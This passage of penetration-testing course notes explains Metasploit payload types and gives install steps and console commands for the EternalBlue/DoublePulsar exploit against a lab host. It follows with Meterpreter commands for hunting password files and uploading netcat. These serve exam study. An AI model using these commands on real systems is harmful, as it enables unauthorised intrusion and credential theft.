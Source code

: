     -   Non-staged payload - is a payload that is sent in its entirety in one go

    -   Staged - sent in two parts  Not have enough buffer space  Or need to bypass antivirus

-   MS 17-010 - EternalBlue

    -   You may find some boxes that are vulnerable to MS17-010 (AKA. EternalBlue).  Although, not offically part of the indended course, this exploit can be leveraged to gain SYSTEM level access to a Windows box.  I have never had much luck using the built in Metasploit EternalBlue module.  I found that the elevenpaths version works much more relabily. Here are the instructions to install it taken from the following YouTube video: [*https://www.youtube.com/watch?v=4OHLor9VaRI*](https://www.youtube.com/watch?v=4OHLor9VaRI)


    1. First step is to configure the Kali to work with wine 32bit

        dpkg --add-architecture i386 && apt-get update && apt-get install wine32
        rm -r ~/.wine
        wine cmd.exe
        exit

    2. Download the exploit repostory `https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit`

    3. Move the exploit to `/usr/share/metasploit-framework/modules/exploits/windows/smb` or `~/.msf4/modules/exploits/windows/smb`

    4. Start metasploit console


     -   I found that using spoolsv.exe as the PROCESSINJECT yielded results on OSCP boxes.

      ```
      use exploit/windows/smb/eternalblue_doublepulsar
      msf exploit(eternalblue_doublepulsar) > set RHOST 10.10.10.10
      RHOST => 10.10.10.10
      msf exploit(eternalblue_doublepulsar) > set PROCESSINJECT spoolsv.exe
      PROCESSINJECT => spoolsv.exe
      msf exploit(eternalblue_doublepulsar) > run
      ```


-   Experimenting with Meterpreter

    -   Get system information from Meterpreter Shell

        `sysinfo`

    -   Get user id from Meterpreter Shell

        `getuid`

    -   Search for a file

        `search -f *pass*.txt`

    -   Upload a file

        `upload /usr/share/windows-binaries/nc.exe c:\\Users\\Offsec`

    -   Download a file
